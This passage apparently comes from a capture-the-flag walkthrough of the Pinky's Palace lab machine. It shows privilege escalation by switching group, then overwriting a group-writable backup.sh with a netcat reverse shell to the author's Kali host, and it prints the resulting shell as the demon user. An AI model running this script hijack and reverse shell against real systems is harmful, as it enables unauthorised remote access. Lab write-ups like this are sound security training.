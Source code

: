 ```
Test
pinky@Pinkys-Palace:/home/pinky/messages$ 
```

During my enumeration of stefano, a file called `backup.sh` was uncovered that could be run, written to and executed by users in the pinky group.
```
pinky@Pinkys-Palace://home/pinky$ cd /usr/local/bin
pinky@Pinkys-Palace:/usr/local/bin$ ls -la
drwxrwsr-x  2 root  staff 4096 Mar 17 16:31 .
drwxrwsr-x 10 root  staff 4096 Mar 17 04:24 ..
-rwxrwx---  1 demon pinky  113 Mar 17 21:24 backup.sh
pinky@Pinkys-Palace:/usr/local/bin$ cat backup.sh
cat: backup.sh: Permission denied
pinky@Pinkys-Palace:/usr/local/bin$ id
uid=1000(pinky) gid=1002(stefano) groups=1002(stefano)
```
However, the current user is still in stefano's group.
Time to change the user group to pinky.
```
pinky@Pinkys-Palace:/usr/local/bin$ newgrp pinky
pinky@Pinkys-Palace:/usr/local/bin$ id
uid=1000(pinky) gid=1000(pinky) groups=1000(pinky),1002(stefano)
```
Now the contents of backup.sh can be viewed!
```
pinky@Pinkys-Palace:/usr/local/bin$ cat backup.sh
cat backup.sh
#!/bin/bash

rm /home/demon/backups/backup.tar.gz
tar cvzf /home/demon/backups/backup.tar.gz /var/www/html
#
#
#
```

## Demon Reverse Shell using Backup.sh

By editing the `Backup.sh` file, we can trigger a reverse shell from the Demon account.
```
pinky@Pinkys-Palace:/usr/local/bin$ echo nc -nv 192.168.225.129 443 -e /bin/bash >backup.sh
pinky@Pinkys-Palace:/usr/local/bin$ cat backup.sh
nc -nv 192.168.225.129 443 -e /bin/bash
```

I wasn't sure how the backup.sh script was triggered, but I started my reverse shell on Kali.  As luck would have it, within about a minute the Demon account reached out to connect to my Kali box.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.225.129] from (UNKNOWN) [192.168.225.130] 37492
id
uid=1001(demon) gid=1001(demon) groups=1001(demon)
```

